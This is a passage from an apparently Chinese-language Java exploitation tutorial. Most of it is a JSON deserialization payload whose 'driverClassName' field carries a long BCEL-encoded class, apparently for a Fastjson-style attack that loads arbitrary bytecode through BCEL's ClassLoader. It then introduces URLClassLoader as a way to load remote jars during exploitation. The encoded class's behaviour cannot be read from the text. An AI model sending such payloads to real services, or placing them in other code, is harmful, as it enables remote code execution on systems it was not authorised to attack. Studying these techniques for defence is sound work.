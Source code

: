 ```
                "driverClassName":"$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$8dV$cb$5b$TW$U$ff$5dH27$c3$m$g$40$Z$d1$wX5$a0$q$7d$d8V$81Zi$c4b$F$b4F$a5$f8j$t$c3$85$MLf$e2$cc$E$b1$ef$f7$c3$be$ec$a6$df$d7u$X$ae$ddD$bf$f6$d3$af$eb$$$ba$ea$b6$ab$ae$ba$ea$7fP$7bnf$C$89$d0$afeq$ee$bd$e7$fe$ce$ebw$ce$9d$f0$cb$df$3f$3e$Ap$I$df$aaHbX$c5$IF$a5x$9e$e3$a8$8a$Xp$8ccL$c1$8b$w$U$e4$U$iW1$8e$T$i$_qLp$9c$e4x$99$e3$94$bc$9b$e4$98$e2$98VpZ$o$cep$bc$c2qVE$k$e7Tt$e2$3c$c7$F$b9$cep$bc$ca1$cbqQ$G$bb$c4qY$c1$V$VW$f1$9a$U$af$ab0PP$b1$h$s$c7$9c$5c$85$U$f3$i$L$iE$F$96$82E$86$c4$a8$e5X$c1Q$86$d6$f4$c0$F$86X$ce$9d$T$M$j$93$96$p$a6$x$a5$82$f0$ce$Z$F$9b4$7c$d4$b4$pd$7b$3e0$cc$a5$v$a3$5c$bb$a2j$U$yQ$z$94$ac$C$9b$fc2$a8y$b7$e2$99$e2$84$r$z$3b$f2e$cfr$W$c6$cd$a2$9bY4$96$N$N$H1$a4$a0$a4$c1$81$ab$a1$8ck$M$a3$ae$b7$90$f1k$b8y$cf$u$89$eb$ae$b7$94$b9$$$K$Z$d3u$C$b1$Sd$3cq$ad$o$fc$ms6$5cs$a1z$c2$b5$e7$84$a7$c0$d3$e0$p$60$e8Z$QA$84$Y$L$C$cf$wT$C$e1S$G2l$d66$9c$85l$ce6$7c_C$F$cb$M$9b$d7$d4$a7$L$8b$c2$M$a8$O$N$d7$b1$c2p$ec$ff$e6$93$X$de$b2$bda$d0$b6Z$$$7e$d9u$7c$oA$5d$cb$8ca$a7$M$bc$92$f1C$db5$lup$92$c03$9e$V$I$aa$eb$86$ccto$b3A1$I$ca$99$J$S$cd$d1C$c3$Ja$Q$tM$d5$e5$DY$88$867$f0$s$f5$d9$y$cd1$u$ae$9fq$a80$Foix$h$efhx$X$ef$d1$e5$cc$c9i$N$ef$e3$D$86$96$acI$b0l$c1r$b2$7e$91$8eC$a6$86$P$f1$R$e9$q$z$81$ed0l$a9$85$a8$E$96$9d$cd$9b$86$e3$c8V$7c$ac$e1$T$7c$aa$e13$7c$ae$e0$a6$86$_$f0$a5l$f8W$e4$e1$f2$98$86$af$f1$8d$86$5b2T$7c$de$aeH$c7q$d3ve$d1$9dk$f9$8e$af$98$a2$iX$$$85$e85$ddRv$de$f0$83E$dfu$b2$cb$V$8a$b4$3aM$M$3dk6$9e$98$b7$a9$85$d9$v$R$U$5d$w$b0$f3$d2$e4$a3$E$8c4$91r$ae$e8$RS4$cdf$c5$f3$84$T$d4$cf$5d$e9$81$c9GQd$d9M$d4FSW$9b$a1I7$a4Yo$827$5cI$9b$N$_$a8M6mj$gjmz$7d$9e$eb$3c$8e$84$ad$ad$d7vl$D$9bK$ebl$g$bd4$b3C$ee$S$96$b3$ec$$$R$edG$g$7d$85$cf$a0$c9W$a4$gX$af$a2$feSN$c7$85i$h$9e$98$ab$e7$d6$ee$8b$60$cc4$85$ef$5b$b5$efF$y$7dQ$7eW$g$a7$f1$86$l$88R$f8$40$cexnYx$c1$N$86$7d$ff$c1$c3j$L$db$C$f7$7c$99$8cr$86$9c$9a$e6n$ad$82$b8$7c$a7$86$e5$Q$c1$bd$8d$8esE$c3$cb$cb$d7$e2$98bd$e0$o$Be$5b$c3Nt$ae$ef$e4H$7d$c6k$aa$b3$V$t$b0J$f5$c7$5c$3ft7$99Ej2$8c$89$VA$_$u$9d$de$60$Q$h$z$88$C$c9Vs$a8H$c9$b0$89B$9dt$ca$95$80$y$85A$acm$ab$87$b3$dcl$c3$F$99$f7$a47$bc$90$eck$V_$i$X$b6U$92$df$U$86$fd$ff$ceu$e3c$96E84$ef$e8$c3$B$fa$7d$91$7f$z$60$f2$ebM2C$a7$9d$b42Z$e3$83w$c1$ee$d0$86$nK2QS$s$c0$f1D$j$da$d2O$O$da$Ip$f5$kZ$aahM$c5$aa$88$9f$gL$rZ$efC$a9$82O$k$60$b4KV$a1NE$80$b6$Q$a0$d5$B$83$a9$f6h$3b$7d$e0$60$84$j$8e$N$adn$e3$91$dd$s$b2Ku$84$d0$cd$c3$89H$bbEjS1$d2$ce$b6$a6$3a$f3$f2J$d1$VJ$a2KO$84R$8f$d5$3dq$5d$d1$e3$EM$S$b4$9b$a0$ea$cf$e8$iN$s$ee$93TS$5b$efa$5b$V$3d$v$bd$8a$ed$df$p$a5$ab$S$a3$ab$b1To$fe6$3a$e4qG$ed$b8$93d$5cO$e6u$5e$c5c$a9$5d$8d$91u$k$3a$ff$J$bbg$ef$a1OW$ab$e8$afb$cf$5d$3c$9e$da$5b$c5$be$w$f6$cb$a03$a1e$3a$aaD$e7Qz$91$7e$60$9d$fe6b$a7$eeH$e6$d9$y$bb$8cAj$95$ec$85$83$5e$92IhP$b1$8d$3a$d0G$bb$n$b4$e306$n$87$OLc3f$b1$F$$R$b8I$ffR$dcB$X$beC7$7e$c0VP$a9x$80$k$fc$K$j$bfa$3b$7e$c7$O$fcAM$ff$T$bb$f0$Xv$b3$B$f4$b11$f4$b3Y$ec$a5$88$7b$d8$V$ec$c7$93$U$edY$c4$k$S$b8M$c1S$K$9eVp$a8$$$c3M$b8$7fF$n$i$da$k$c2$93s$a3$e099$3d$87k$pv$e4$l$3eQL$40E$J$A$A"
            }
        } : "xxx"
    }
}
```

![image-20220509173521483](https://image-1257110520.cos.ap-beijing.myqcloud.com/old/202205091735548.png)



# 0x05 URLclassloader



## URLClassLoader

`URLClassLoader`继承了`ClassLoader`的一个子类

`URLClassLoader`一看名字就是知道可以远程加载，在漏洞利用的时候可以加载远程的jar来实现远程的类方法调用。

